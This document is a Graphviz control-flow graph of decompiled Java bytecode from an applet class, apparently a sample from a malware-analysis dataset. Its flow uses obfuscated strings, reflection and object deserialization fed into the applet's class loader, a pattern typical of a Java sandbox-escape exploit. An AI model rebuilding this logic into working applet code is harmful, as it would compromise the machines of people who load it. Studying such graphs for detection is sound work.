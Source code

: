 digraph "" {
    "r0 := @this: MyApplet"
    "push \"jk3kntUHanp[qpt55lqUnkU[DHpn%U[DHpWlyl5lqpl%55k;\""
    "r0 := @this: MyApplet"->"push \"jk3kntUHanp[qpt55lqUnkU[DHpn%U[DHpWlyl5lqpl%55k;\"";
    "staticinvoke <samec: java.lang.String b(java.lang.String)>"
    "push \"jk3kntUHanp[qpt55lqUnkU[DHpn%U[DHpWlyl5lqpl%55k;\""->"staticinvoke <samec: java.lang.String b(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <samec: java.lang.String b(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push \"ZlU\""
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push \"ZlU\"";
    "push \"ZlU\""->"staticinvoke <samec: java.lang.String b(java.lang.String)>";
    "push 2"
    "staticinvoke <samec: java.lang.String b(java.lang.String)>"->"push 2";
    "newarray"
    "push 2"->"newarray";
    "store.r r4"
    "newarray"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "arraywrite.r"
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "push 1"
    "load.r r4"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "load.r r4"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "new java.io.ByteArrayInputStream"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"new java.io.ByteArrayInputStream";
    "store.r r6"
    "new java.io.ByteArrayInputStream"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "staticinvoke <onemillion: java.lang.String y()>"
    "load.r r6"->"staticinvoke <onemillion: java.lang.String y()>";
    "staticinvoke <onemillion: java.lang.String y()>"->"staticinvoke <samec: java.lang.String b(java.lang.String)>";
    "push \"jk3knk77alUn%77alU\""
    "staticinvoke <samec: java.lang.String b(java.lang.String)>"->"push \"jk3knk77alUn%77alU\"";
    "push \"jk3knk77alUn%77alU\""->"staticinvoke <samec: java.lang.String b(java.lang.String)>";
    "staticinvoke <samec: java.lang.String b(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push \"RlUo[4lukZl\""
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push \"RlUo[4lukZl\"";
    "push \"RlUo[4lukZl\""->"staticinvoke <samec: java.lang.String b(java.lang.String)>";
    "staticinvoke <samec: java.lang.String b(java.lang.String)>"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "load.r r0"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"virtualinvoke <java.lang.Object: java.lang.String toString()>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"->"store.r r4";
    "staticinvoke <roger: byte[] c(java.lang.String)>"
    "store.r r4"->"staticinvoke <roger: byte[] c(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <roger: byte[] c(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r6";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r r6"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"newarray";
    "store.r $r26"
    "newarray"->"store.r $r26";
    "load.r $r26"
    "store.r $r26"->"load.r $r26";
    "load.r $r26"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "arrayread.r"->"push 2";
    "push 2"->"newarray";
    "store.r r0"
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"push 0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"load.r $r26";
    "load.r $r26"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "pop"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"pop";
    "pop"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r4";
    "staticinvoke <apl: void negouderop(apl,java.lang.String)>"
    "load.r r4"->"staticinvoke <apl: void negouderop(apl,java.lang.String)>";
    "goto return"
    "staticinvoke <apl: void negouderop(apl,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <apl: void negouderop(apl,java.lang.String)>"->"store.r r0";
}
